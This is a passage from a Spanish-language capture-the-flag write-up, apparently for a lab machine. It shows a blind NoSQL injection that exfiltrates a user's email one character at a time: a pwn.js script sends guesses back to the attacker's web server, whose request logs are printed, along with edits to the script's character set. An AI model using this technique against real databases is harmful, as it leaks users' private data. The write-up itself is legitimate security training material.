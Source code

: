 #### **Nosql - Exfil (email)**

La primera letra del campo email es `t`.
{% highlight sh %}
10.10.11.209 - - [13/Aug/2023 16:29:21] "GET /?char=t&status=true HTTP/1.1" 200 -
{% endhighlight %}

Modificamos "know" para añadir la letra `t`
`pwn.js`
{% highlight javascript %}
const know = "t";
{% endhighlight %}
Ahora obtenemos esta salida en nuestro servidor web.

Eliminamos la string de caracteres desde 0-q porque ninguno coincide con el segundo caracter del email.

{% highlight sh %}
10.10.11.209 - - [13/Aug/2023 16:54:32] "GET /?char=t0&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:32] "GET /?char=t1&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:33] "GET /?char=t2&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:34] "GET /?char=t3&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:35] "GET /?char=t4&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:36] "GET /?char=t5&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:37] "GET /?char=t6&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:37] "GET /?char=t7&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:38] "GET /?char=t8&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:38] "GET /?char=t9&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:39] "GET /?char=ta&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:40] "GET /?char=tb&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:41] "GET /?char=tc&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:42] "GET /?char=td&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:42] "GET /?char=te&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:43] "GET /?char=tf&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:44] "GET /?char=tg&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:44] "GET /?char=th&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:45] "GET /?char=ti&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:46] "GET /?char=tj&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:47] "GET /?char=tk&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:48] "GET /?char=tl&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:49] "GET /?char=tm&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:49] "GET /?char=tn&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:51] "GET /?char=to&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:51] "GET /?char=tp&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 16:54:52] "GET /?char=tq&status=false HTTP/1.1" 200 -
{% endhighlight %}

`pwn.js`
{% highlight javascript %}
const chars = `rstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'`;
{% endhighlight %}

El segundo caracter del campo email es `r`.
